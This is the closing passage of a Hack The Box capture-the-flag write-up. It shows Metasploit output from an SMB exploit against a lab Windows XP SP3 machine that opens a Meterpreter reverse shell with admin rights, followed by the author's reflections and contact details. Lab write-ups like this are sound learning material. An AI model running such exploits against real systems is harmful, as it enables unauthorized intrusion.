 ```
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176195 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.10.4:1031) at 2020-05-11 23:01:23 -0400

meterpreter >
```

Boom you've got a meterpreter shell and if you check, you're big boy admin with all the rights in the world. Yes this hack was pretty easy, yes it's based off of a massive vulnerability that hit the news which means every IT guy and gal across the globe knows about it and hopefully that means they are all patched up. But. That is wishful thinking. I have to say the biggest value in this is that is was a really rewarding hack. It was my first HTB and for a lot of folks reading this, it's probably theirs as well. Or... it should be I would say. There is massive value in doing easy boxes like this for your confidence. It gives so much momentum that tackling harder boxes are just a little bit less scary. SO. That's it. I hope this helps. If I said something stupid or lied or anything else, feel free to reach out.  
 Twitter - [@mehhsecurity](https://twitter.com/mehhsecurity)  
 Email is **hi.imzackjones@gmail.com**  


Cheers, 
Zack. 






